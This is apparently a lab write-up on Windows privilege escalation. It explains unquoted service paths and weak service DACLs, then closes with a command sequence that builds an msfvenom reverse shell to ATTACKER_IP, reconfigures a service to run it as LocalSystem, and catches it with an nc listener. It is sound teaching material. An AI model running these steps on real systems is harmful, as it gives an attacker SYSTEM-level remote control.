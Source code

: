 As an example, let's look at the difference between two services:

- `BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service`, quoted.
- `BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`, unquoted.

When the SCM tries to execute the associated binary, a problem arises.
Since there are spaces on the name of the "Disk Sorter Enterprise" folder, the command becomes `ambiguous`, and the SCM doesn't know which of the following you are trying to execute:

| Command | Argument 1 | Argument 2 |
|-|-|-|
| `C:\MyPrograms\Disk.exe` | `Sorter` | `Enterprise\bin\disksrs.exe` |
| `C:\MyPrograms\Disk Sorter.exe` | `Enterprise\bin\disksrs.exe` |  |
| `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe` |  |  |

This has to do with how the command prompt parses a command. Usually, when you send a command, `spaces are used as argument separators` unless they are part of a quoted string.
This means the "right" interpretation of the unquoted command would be to execute `C:\\MyPrograms\\Disk.exe` and take the rest as arguments.

Instead of failing as it probably should, SCM tries to help the user and starts searching for each of the binaries in the order shown in the table:

1. First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.
While this sounds trivial, most of the service executables will be installed under `C:\Program Files` or `C:\Program Files (x86)` by default, which `isn't writable by unprivileged users`.

### Insecure Service Permissions
You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted.
Should the `service DACL` (`not the service's executable DACL`) allow you to modify the configuration of a service, you will be able to `reconfigure the service`.
This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use `Accesschk` from the `Sysinternals suite`.

1. `accesschk64.exe -qlc thmservice`
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe`
3. `icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`
4. `sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`
5. `sc stop THMService`
6. `sc start THMService`
7. `nc -lvp 4447`
